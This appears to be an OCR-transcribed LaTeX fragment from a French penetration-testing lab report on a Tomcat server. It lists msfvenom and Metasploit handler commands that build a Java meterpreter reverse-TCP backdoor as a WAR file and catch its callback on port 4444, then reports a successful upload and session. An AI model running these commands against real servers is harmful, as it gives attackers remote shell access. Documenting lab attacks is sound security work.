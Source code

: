 \documentclass[a4paper]{article}
\begin{document}
\begin{enumerate}
\begin{example}
\begin{itemize}
            \item \texttt{\footnotesize msfvenom -p java/meterpreter/reverse\_tcp -f war} \\ \texttt{\footnotesize LHOST=192.168.1.3 LPORT=4444 -o backdoor.war}
            \item \texttt{\footnotesize use multi/handler}
            \item \texttt{\footnotesize set payload java/meterpreter/reverse\_tcp}
            \item \texttt{\footnotesize set LHOST 192.168.1.3}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est un \textcolor{blue}{\textbf{succès}}. Vous pouvez voir l'upload de la backdoor sur la figure \ref{fig:uploadTomcat} et sur la figure \ref{fig:successTomcat}, l'ouverture de session.
    \end{example}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.65\linewidth]{images/upload-backdoor-tomcat.PNG}
        \caption{Upload de la backdoor manuellement sur Tomcat}
        \label{fig:uploadTomcat}
    \end{figure}
    \begin{figure}[H]
        \centering
        \includegraphics[width=0.95\linewidth]{images/backdoor-tomcat.PNG}

\end{figure}
\end{enumerate}
\end{document}
